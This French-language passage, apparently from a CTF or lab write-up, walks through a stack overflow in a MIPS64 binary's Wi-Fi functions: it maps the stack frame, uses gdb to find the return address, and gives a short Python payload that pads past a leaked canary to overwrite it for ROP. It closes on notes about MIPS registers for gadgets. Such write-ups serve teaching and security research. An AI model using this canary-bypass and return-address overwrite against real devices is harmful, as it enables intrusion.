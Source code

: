 Crédit : https://www.sciencedirect.com/topics/computer-science/frame-pointer#:~:text=A%20stack%20pointer%20(sp)%20defines,end%20of%20the%20last%20frame.

On en conclut pour la nôtre :

![Stack](images/offset.png)

- En rouge : arguments + temp
- En jaune : canary
- En bleu : regs,.. + fp
- En vert : return address

L'adresse de retour à remplacer est donc `0x7f91952c7e34`.

On peut vérifier via gdb

````shell
gdb-peda$ ni
0x00007f91952c7720      112     };
1: x/5i $pc
=> 0x7f91952c7720 <Connect_TO_WIFI+280>:        jr      ra
   0x7f91952c7724 <Connect_TO_WIFI+284>:        nop
   0x7f91952c7728 <Change_WIFI_Key>:    daddiu  sp,sp,-80
   0x7f91952c772c <Change_WIFI_Key+4>:  sd      ra,72(sp)
   0x7f91952c7730 <Change_WIFI_Key+8>:  sd      s8,64(sp)
gdb-peda$ i r ra
ra: 0x7f91952c7e34
````

Ce qui donne :

````python
buf = b'a' * 24
buf += p64(canary)
buf += b'b' * 24
buf += p64(@jumpForROP)
````

### Gadgets

#### Basique MIPS 

- `s0-s7` sont des registres généraux sauvegardés par la fonction appelée.
- `ra` est un registre pour l'adresse de retour actuelle.
	- Dans les fonctions qui appellent d'autres fonctions, `ra` sera sauvegardé sur la pile puis rechargé à la fin de la fonction => ROP.
- `jr ra` est l'instruction utilisée pour retourner.
- `v0` et `v1` sont utilisés pour retourner des valeurs depuis les fonctions.
- `a0` à `a3` sont utilisés pour les quatre premiers arguments de fonction.
- `t9` est souvent utilisé pour résoudre et appeler des fonctions externes.
